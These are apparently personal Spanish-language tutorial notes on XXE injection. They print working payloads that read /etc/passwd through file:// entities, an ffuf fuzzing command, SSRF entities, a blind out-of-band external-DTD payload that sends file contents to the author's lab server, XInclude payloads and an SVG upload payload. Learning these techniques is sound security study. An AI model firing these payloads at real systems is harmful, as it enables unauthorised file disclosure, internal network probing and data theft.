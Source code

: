 ```yaml
---
title: Apuntes XXE
image: https://www.appsecmonkey.com/static/images/xxe/cover.jpg
description: Apuntes XXE 
categories: [Tutorial]
tags: [hacking,notes]
---
```


## Inicio

> https://www.youtube.com/watch?v=UfILDa_qStQ
> 
> **hacktricks** https://book.hacktricks.wiki/en/pentesting-web/xxe-xee-xml-external-entity.html


Cuando hablamos de **XML External Entity** (**XXE**) **Injection**, a lo que nos referimos es a una vulnerabilidad de seguridad en la que un atacante puede utilizar una entrada XML maliciosa para acceder a recursos del sistema que normalmente no estarían disponibles, como archivos locales o servicios de red. Esta vulnerabilidad puede ser explotada en aplicaciones que utilizan XML para procesar entradas, como aplicaciones web o servicios web.

Un ataque XXE generalmente implica la inyección de una **entidad** XML maliciosa en una solicitud HTTP, que es procesada por el servidor y puede resultar en la exposición de información sensible. Por ejemplo, un atacante podría inyectar una entidad XML que hace referencia a un archivo en el sistema del servidor y obtener información confidencial de ese archivo.


![](/assets/img/Anexos/Pasted%20image%2020250214172109-1.png)


![](/assets/img/Anexos/Pasted%20image%2020250214172652-1.png)


Las entidades se pueden manipular con un **DTD (Document Type Definition)**:
```XML
<!DOCTYPE foo [ <!ENTITY mail "hola"> ]>
```
![](/assets/img/Anexos/Pasted%20image%2020250214172903-1.png)



Entonces aquí, podriamos probar entidades predefinidas para tensarla que hay unas cuantas:

![](/assets/img/Anexos/Pasted%20image%2020250214173318-1.png)


## Uso de wrappers para cambiar la presentación de los datos
La idea sigue siendo la misma, declarar una entidad, pero usando wrappers 

**Wrapper file**

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

![](/assets/img/Anexos/Pasted%20image%2020250214174805-1.png)


### XXE FUZZ 
Si podemos usar el wrapper anterior, podemos fuzzear por directorios con `ffuf` de la siguiente manera: 
```shell
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/quickhits.txt -u http://192.168.1.44/magic.php  -d '<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/david/FUZZ"> ]> <details><email>&xxe;</email><password>das</password></details>' --fw 11
```


## XXE + SSRF
SSFR (Server-side Request Forgery) consinste en visualizar puertos, servicios , secciones de una máquina o servidor aprovechándonos de un campo o utilidad del mismo: 
![](/assets/img/Anexos/Pasted%20image%2020250215185340-1.png)

Entonces abusando de **XXE** podemos hacer algo parecido. Por ejemplo, con el **wrapper** `http://`:
```XML
<!DOCTYPE foo [ <!ENTITY xxe "http://192.168.1.10/etc/passwd"> ]>
```

![](/assets/img/Anexos/Pasted%20image%2020250215185536-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250215185638-1.png)

Entonces, a través de un XXE podemos acceder a recursos, en este caso, de nuestra máquina.

Entonces por ejemplo **podríamos llegar a ver/acceder a una máquina de la red de la máquina víctima.**

![](/assets/img/Anexos/Pasted%20image%2020250215190001-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250215190254-1.png)

Ahora a ir fuzeando 

![](/assets/img/Anexos/Pasted%20image%2020250215190613-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250215190743-1.png)



Ahora con esto, lo que vamos a hacer es en nuestra máquina crearnos una entidad
 

## XXE a ciegas out-of-band | No permite injectar entidades | DTD externo

```XML
<!DOCTYPE foo [ <!ENTITY % xxe "http://192.168.1.10/malicioud"> %xxe; ]>
```


Esta se produce cuando de primeras en la comprobación, no ves que se está aconteciendo un xxe:

![](/assets/img/Anexos/Pasted%20image%2020250215192138-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250215192216-1.png)


![](/assets/img/Anexos/image%2010%204.png)

![](/assets/img/Anexos/image%2011%204.png)

Entonces podemos probar un **XXE out-out-band** que seria llamar a una **url externa** para **exportar** la información/entidades para **verla de nuestro lado**


Cuando hay páginas que no permiten inyectar entidades, podemos llamar a la entidad en el propio DOCTYPE:

![](/assets/img/Anexos/Pasted%20image%2020250215192850-1.png)

Entonces, aqui pasamos el /etc/passwd a un servidor nuestro que tenemos montado en python 

![](/assets/img/Anexos/image%2014%204.png)

A veces no hace falto ni poner el wrapper

![](/assets/img/Anexos/image%2018%203.png)



## XXE a ciegas via error messages

![](/assets/img/Anexos/Pasted%20image%2020250216095226-1.png)

Cuando veamos que hay errores en la respuesta, nos podemos aprovechar de ellos para cargar datos.

Esto se hace haciendo la petición a nuestro .dtd y que este carga un fichero que no existe, **forzando un error** el cual nos mostrará data. 

![](/assets/img/Anexos/Pasted%20image%2020250216095558-1.png)


![](/assets/img/Anexos/Pasted%20image%2020250216095631-1.png)


## Exploting XInclude to retrieve files 

Cuando no podamos modificar el DOCTYPE, porque no lo hay, en los elementos metemos este código


```XML
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```


![](/assets/img/Anexos/Pasted%20image%2020250216100809-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250216100749-1.png)


## XXE via Imagen 
```XML
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Esto sucede en webs en las que podemos subir una imagen 

![](/assets/img/Anexos/Pasted%20image%2020250216101200-1.png)

Metemos 

![](/assets/img/Anexos/Pasted%20image%2020250216101217-1.png)

Si no funciona de primeras, con Burpsuite lo unificamos todo: 

![](/assets/img/Anexos/Pasted%20image%2020250216101332-1.png)

![](/assets/img/Anexos/Pasted%20image%2020250216101355.png)

Ahora al abrir la imagen, esta tendrá la data que le pedimos 

![](/assets/img/Anexos/Pasted%20image%2020250216101414.png)



